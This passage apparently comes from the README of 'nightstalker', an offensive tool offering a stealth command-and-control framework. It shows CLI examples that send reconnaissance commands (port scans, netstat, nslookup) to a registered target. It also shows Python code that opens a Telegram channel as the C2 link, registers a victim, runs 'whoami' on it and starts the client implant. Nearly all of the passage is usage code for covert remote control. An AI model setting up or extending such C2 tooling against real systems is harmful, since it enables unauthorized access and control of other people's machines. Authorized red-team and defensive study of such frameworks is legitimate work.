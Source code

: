 ### Network Operations

```bash
# Port scan
nightstalker c2 send --target-id TARGET001 --command "nmap -sT -p 22,80,443 localhost"

# Network connections
nightstalker c2 send --target-id TARGET001 --command "netstat -tuln"

# DNS queries
nightstalker c2 send --target-id TARGET001 --command "nslookup google.com"
```

## 🛠️ Advanced Usage

### Python API

```python
from nightstalker.c2.stealth_c2 import StealthC2

# Initialize C2
c2 = StealthC2()

# Setup channel
c2.setup_channel('telegram', bot_token='YOUR_TOKEN', chat_id='YOUR_CHAT_ID')

# Register target
c2.register_target('TARGET001', {'platform': 'linux', 'user': 'test'})

# Send command
c2.send_command('TARGET001', 'whoami')

# Get results
results = c2.get_results('TARGET001')
```

### Client API

```python
from nightstalker.c2.stealth_client import StealthC2Client

# Create client
client = StealthC2Client(
    target_id='TARGET001',
    channel_type='telegram',
    bot_token='YOUR_TOKEN',
    chat_id='YOUR_CHAT_ID'
)

# Start client
client.start()
```
